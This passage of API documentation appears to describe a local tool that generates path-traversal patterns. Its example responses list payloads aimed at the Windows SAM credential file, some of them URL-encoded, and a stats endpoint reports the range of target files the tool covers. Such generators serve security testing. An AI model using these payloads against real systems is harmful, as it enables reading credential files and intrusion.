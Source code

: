 #### Windows Example

```bash
# Generate Windows patterns
curl -X POST "http://localhost:8000/generate" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: ddp_1234567890abcdef" \
  -d '{
    "os_type": "windows",
    "file": "c:\\\\windows\\\\system32\\\\config\\\\sam",
    "depth": 4,
    "include_absolute": true
  }'

# Response:
{
  "status": "success",
  "config": {
    "os_type": "windows",
    "file": "c:\\windows\\system32\\config\\sam",
    "depth": 4,
    "include_absolute": true
  },
  "statistics": {
    "total_patterns": 1234,
    "relative_patterns": 1122,
    "absolute_patterns": 112,
    "generation_time": 0.256
  },
  "patterns": [
    "../c:/windows/system32/config/sam",
    "../../c:/windows/system32/config/sam",
    "../../../c:/windows/system32/config/sam",
    "../../../../c:/windows/system32/config/sam",
    "c:\\windows\\system32\\config\\sam",
    "%2fc%5cwindows%5csystem32%5cconfig%5csam",
    "...additional 1228 patterns..."
  ]
}
```

### Get Pattern Statistics

```http
GET /generate/stats
```

Get statistics about pattern generation capabilities.

```bash
curl "http://localhost:8000/generate/stats" \
  -H "X-API-Key: ddp_1234567890abcdef"

# Response:
{
  "supported_os_types": ["unix", "windows", "generic"],
  "target_files": {
    "unix": 36,
    "windows": 27,
    "generic": 15
  },
  "pattern_types": {
    "relative_patterns": 24,
    "absolute_patterns": 144,
    "encoding_variations": 20
  },
```